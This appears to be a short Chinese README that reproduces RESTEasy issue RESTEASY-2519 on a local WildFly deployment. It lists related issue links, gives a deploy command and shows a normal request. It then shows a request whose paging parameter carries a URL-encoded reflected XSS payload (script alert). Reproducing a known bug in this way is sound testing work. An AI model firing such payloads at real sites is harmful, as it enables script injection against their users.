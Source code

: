 ## 相关issues

* https://issues.redhat.com/browse/RESTEASY-2519
* [WFLY-7419 Include RESTEasy WADL module - Red Hat Issue Tracker](https://issues.redhat.com/browse/WFLY-7419)
* [RESTEasy: RESTEasy WADL Grammar Support| JBoss.org Content Archive (Read Only)](https://developer.jboss.org/en/resteasy/blog/2018/10/31/resteasy-wadl-grammar-support)


## 部署至wildfly

```bash
[standalone@localhost:9990 /] deploy resteasy-wildfly/target/resteasy-wildfly.war --force
```

## RESTEASY-2519

正常访问：

```bash
$ curl "localhost:8080/resteasy-wildfly/rest/users?paging=1"
```

访问有问题的服务：

```bash
$ http "http://localhost:8080/resteasy-wildfly/rest/users?paging=0%2c-1sp137%3Cscript%3Ealert(1)%3C%2fscript%3Emzx4u"
```

